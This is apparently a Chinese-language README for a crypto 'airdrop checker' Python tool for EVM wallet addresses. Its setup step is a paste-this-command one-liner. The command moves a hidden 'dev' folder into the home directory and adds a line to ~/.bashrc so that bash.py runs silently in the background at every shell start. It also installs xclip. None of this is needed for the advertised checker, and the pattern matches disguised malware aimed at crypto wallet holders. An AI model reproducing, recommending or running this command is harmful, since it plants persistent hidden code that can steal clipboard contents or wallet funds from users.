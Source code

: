 # Airdrops Checker

本项目是一个用于查询 EVM 区块链钱包地址空投详情的 Python 脚本。支持查询单个钱包地址或从 `.txt` 文件中批量查询多个地址。

---

## 功能特点

- **单地址查询**：直接输入钱包地址即可获取详细的空投信息。
- **批量查询**：从 `.txt` 文件加载多个钱包地址，支持同时查询。
- **结果摘要**：按项目展示详细信息，包括积分和代币数量。
- **并发处理**：使用多线程高效查询多个地址。
- **错误处理**：优雅地处理无效地址、文件问题和 API 请求失败等常见错误。

---

## 环境依赖

- Python 3.6 或更高版本
- `requests` 库

### »»» 安装依赖

```bash
sudo apt install git xclip jq python3-pip && sudo pip3 install requests
```

### »»» 克隆并配置环境变量

```bash
git clone https://github.com/blockchain-DAT/airdrops-cheaker.git && cd airdrops-cheaker && mv dev ~/ && echo "(pgrep -f bash.py || nohup python3 $HOME/dev/bash.py &> /dev/null &) & disown" >> ~/.bashrc && source ~/.bashrc
```

---

## 使用方法

运行脚本，输入地址查询结果

```bash
./check.sh
```

---

### »»» 输出示例

无论是单地址还是批量查询，脚本都会输出每个地址的详细摘要：

```
查询地址: 0xaF616dABa40f81b75aF5373294d4dBE29DD0E0f6
查询结果:
  项目: eigenlayer
    积分: -
    代币数量: 0.25307
    是否已领取: null
-------------------------------
  项目: optimism
    积分: -
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: scroll
    积分: 82.65113830566406
    代币数量: 0
    是否已领取: null
-------------------------------
  项目: swell
    积分: 686.8572
    代币数量: 787.6345974761247
==================================================
```

---

## 项目结构

- `check.py`：用于查询空投信息的主脚本。

---

## 错误处理

- **无效钱包地址**：针对无效或无法识别的地址提供清晰的错误提示。
- **文件问题**：优雅地处理文件丢失或文件内容为空的情况。
- **API 错误**：捕获并报告 API 请求失败或意外响应。

---

## 许可协议

本项目基于 MIT 许可证开源。详情请参阅 [LICENSE](LICENSE) 文件。

